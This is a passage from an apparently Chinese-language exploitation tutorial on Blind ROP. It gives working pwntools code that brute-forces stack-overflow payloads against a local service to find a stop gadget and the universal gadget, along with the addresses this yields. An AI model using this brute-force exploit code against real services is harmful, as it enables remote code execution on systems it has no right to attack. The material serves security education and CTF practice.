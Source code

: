 ```python
            return addr
        except EOFError as e:
            p.close()
            log.info("bad: 0x%x" % addr)
        except:
            log.info("Can't connect")
            addr -= 1
```
由于我们在本地的守护脚本略简陋，在程序挂掉和重新启动之间存在一定的时间差，所以这里 `sleep(0.1)` 做一定的缓冲，如果还是冲突，在 `except` 进行处理，后面的代码也一样。
```
[*] stop address: 0x4005e5
```

#### common gadget
有了 stop gadget，那些原本会导致程序崩溃的地址还是一样会导致崩溃，但那些正常返回的地址则会通过 stop gadget 进入被挂起的状态。下面我们就可以寻找其他可利用的 gadget，由于是 64 位程序，可以考虑使用通用 gadget（有关该内容请参见章节4.7）：
```python
def get_gadgets_addr(buf_size, stop_addr):
    addr = stop_addr
    while True:
        sleep(0.1)
        addr += 1
        payload  = "A"*buf_size
        payload += p64(addr)
        payload += p64(1) + p64(2) + p64(3) + p64(4) + p64(5) + p64(6)
        payload += p64(stop_addr)
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.sendline(payload)
            p.recvline()
            p.close()
            log.info("find address: 0x%x" % addr)
            try:    # check
                payload  = "A"*buf_size
                payload += p64(addr)
                payload += p64(1) + p64(2) + p64(3) + p64(4) + p64(5) + p64(6)

                p = remote('127.0.0.1', 10001)
                p.recvline()
                p.sendline(payload)
                p.recvline()
                p.close()
                log.info("bad address: 0x%x" % addr)
            except:
                p.close()
                log.info("gadget address: 0x%x" % addr)
                return addr
        except EOFError as e:
            p.close()
            log.info("bad: 0x%x" % addr)
        except:
            log.info("Can't connect")
            addr -= 1
```
直接从 stop gadget 的地方开始搜索就可以了。另外，找到一个正常返回的地址之后，需要进行检查，以确定是它确实是通用 gadget。
```
[*] gadget address: 0x40082a
```
有了通用 gadget，就可以得到 `pop rdi; ret` 的地址了，即 gadget address + 9。
